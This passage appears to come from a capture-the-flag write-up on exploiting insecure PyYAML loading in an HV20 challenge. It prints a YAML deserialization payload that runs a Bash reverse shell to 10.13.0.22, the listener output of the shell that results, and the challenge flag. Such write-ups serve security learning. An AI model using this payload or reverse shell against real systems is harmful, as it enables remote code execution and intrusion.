 ```` `` can run commands in a subshell. The limiting factor here is that the

[This issue](https://github.com/yaml/pyyaml/issues/420) on the PyYaml GitHub
page talks about the library still being vulnerable to attack, and gives some
example payloads.

On the second one, I changed “RCE_HERE” to `print('0xdf')`:

![image-20201219143244879](https://0xdfimages.gitlab.io/img/image-20201219143244879.png)

On submitting that, the basic linter found no issues:

![image-20201219143451910](https://0xdfimages.gitlab.io/img/image-20201219143451910.png)

To see if it was actually running my code, I changed `print` to `ppp` (a non-
existent function), and on submitting:

![image-20201219143409128](https://0xdfimages.gitlab.io/img/image-20201219143409128.png)

This is a really good sign that the submitted code is running.

#### Shell

I’ll update this payload with a one-liner reverse shell, initially using
`os.system()` to run a Bash reverse shell:

    
    
    !!python/object/new:type
      args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
      listitems: "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.13.0.22/443 0>&1\"')"
    

With `nc` started and listening on 443, I’ll submit that, and I get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 152.96.7.3.
    Ncat: Connection from 152.96.7.3:36010.
    bash: cannot set terminal process group (297): Not a tty
    bash: no job control in this shell
    bash: /root/.bashrc: Permission denied
    bash-5.0$
    

The flag is sitting in the same directory:

    
    
    bash-5.0$ cat flag.txt
    HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
    

**Flag:`HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`**

A Python reverse shell works too (I just have to look it up every time, unlike
the Bash one which I’ve memorized):

    
    
````